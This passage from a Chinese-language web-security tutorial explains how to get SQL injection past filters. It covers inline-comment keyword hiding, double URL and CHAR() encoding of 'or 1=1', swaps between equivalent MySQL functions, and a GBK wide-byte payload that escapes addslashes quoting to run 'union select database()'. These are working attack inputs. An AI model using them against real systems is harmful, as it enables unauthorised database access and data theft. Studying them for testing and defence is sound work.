 ```
/*!select*/
```

![image-20210726135107240](images/13.png)

## 编码绕过

有时候我们可以将语句编码,用urlencode,hex,ascii,unicode编码进行绕过

由于服务器会自动对url进行一次解码,所以我们在进行url编码的时候需要把关键词编码两次，这里需要注意的地方是，URL编码需选择全编码，而不是普通的URL编码

```
test也可以是CHAR(116)+CHAR(97)+CHAR(115)+CHAR(116)来代替
or 1=1即%6f%72%20%31%3d%31
```

## 等价函数绕过

```
hex()//16进制、bin()//二进制 
ord() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()
left(str,length)返回length左边的字符
rigth()与left相反
strcmp()相同返回0,大于返回1,小于返回-1
```

![image-20210727010147116](images/14.png)

![image-20210727010737979](images/15.png)

![image-20210727011725067](images/16.png)

## 宽字节注入

当`'`被过滤的时候一般都是用`addslashes()`将单引号转义为`\'`

而`\'`的url编码是`%5c%27`

当mysql的编码方式是GBK编码的时候,`%df%5c`是一个汉字，这样就会将/吃掉，就可以逃逸掉单引号

例如代码

```
id=1%df%27 union select 1,database()#
```

防御此漏洞，要将 mysql_query 设置为 binary 的方式

## 多参数请求拆分绕过
